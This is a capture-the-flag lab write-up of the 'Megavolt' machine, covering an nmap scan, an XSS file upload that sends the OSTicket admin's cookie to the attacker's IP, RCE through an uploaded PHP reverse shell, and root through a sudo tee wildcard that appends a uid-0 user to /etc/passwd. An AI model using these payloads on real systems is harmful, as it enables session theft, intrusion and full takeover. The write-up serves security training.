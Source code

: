 # Megavolt

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.183.115
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 13:29 +08
Nmap scan report for 192.168.183.115
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE
22/tcp open   ssh
80/tcp open   http
```

We can start proxying traffic through Burp.&#x20;

### OSTicket --> XSS Admin Cookie

Port 80 hosted an OSTicket instance, which has a lot of vulnerabilities and exploits:

<figure><img src="../../../.gitbook/assets/image (98) (8).png" alt=""><figcaption></figcaption></figure>

I  registered a new user and opened a ticket. When I viewed the status, it seems that an 'Alfred Smith' closes the tickets:

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

This confirms that a user is indeed viewing the tickets, and we can try to use an XSS exploit for it. The file upload function is vulnerable to an XSS exploit:

{% embed url="https://www.exploit-db.com/exploits/47224" %}

We can upload this HTML file to steal the administrator's cookie:

{% code overflow="wrap" %}
```markup
<script>new Image().src='http://192.168.45.208/?cookie=' + encodeURI(document.cookie);</script>
```
{% endcode %}

As soon as we upload the file and submit a new ticket, we get this on a listener port:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

Using this cookie, we can then login to OSTicket at `/scp` by changing our cookie within Burp:

<figure><img src="../../../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

### OSTicket RCE

Within the settings of the Admin Panel, we can find the version of OSTicket running:

<figure><img src="../../../.gitbook/assets/image (19) (9).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to an RCE exploit. To exploit it, we first need to enable the plugin that stores attachments within the file system of the machine:

<figure><img src="../../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, in the settings, make sure to change the Attachment settings:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Then, we need to open a new ticket and upload a PHP reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

View the ticket from the Administrator account:

<figure><img src="../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

If we click on the attachment, it would generate a GET request to the `file.php` file with a key:

<figure><img src="../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

This is the URL key, and we need one more key which is the File key. This can be generated by doing the following:

```
$ php -a 
Interactive shell

php > $sha1 = base64_encode(sha1_file('shell.php', true));
php > print(str_replace(array('=','+','/'), array('','-','_'), $sha1));
Y2_qPxdA2XMAeDyyloBdYykx9uE
```

Then, we can finally use this repository's script to trigger the shell:

{% embed url="https://github.com/Und3r-r00t/osticket-shell" %}

The exploit took me quite a few times before it worked. If it doesn't work, upload your shell with a different name. In my case, `shell.php` worked.&#x20;

<figure><img src="../../../.gitbook/assets/image (17) (2) (4).png" alt=""><figcaption></figcaption></figure>

The script would brute force every possible directory that the PHP shell is in before executing it:

<figure><img src="../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Tee + Wildcard --> Root

We can check our `sudo` privileges on the machine:

```
bash-4.2$ sudo -l 
Matching Defaults entries for apache on megavolt:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User apache may run the following commands on megavolt:
    (ALL) NOPASSWD: /usr/bin/tee /var/log/httpd/*
```

Because there's a wildcard there, we can basically run `tee` to write to any file we want. First, generate a new password hash:

```
$ openssl passwd -1 hello123
$1$/l2LqOov$SE/j5UXGMIShXVQVjiEjJ.
```

Then, write this to the `/etc/passwd` file using this one-liner:

{% code overflow="wrap" %}
```bash
(cat /etc/passwd && echo 'innocent:$1$/l2LqOov$SE/j5UXGMIShXVQVjiEjJ.:0::/root:/bin/sh') | sudo tee /var/log/httpd/../../../../../../etc/passwd
```
{% endcode %}

This would add our new entry into the `/etc/passwd` file and we can `su` to become `root`:

<figure><img src="../../../.gitbook/assets/image (12) (1) (9).png" alt=""><figcaption></figcaption></figure>

Rooted!
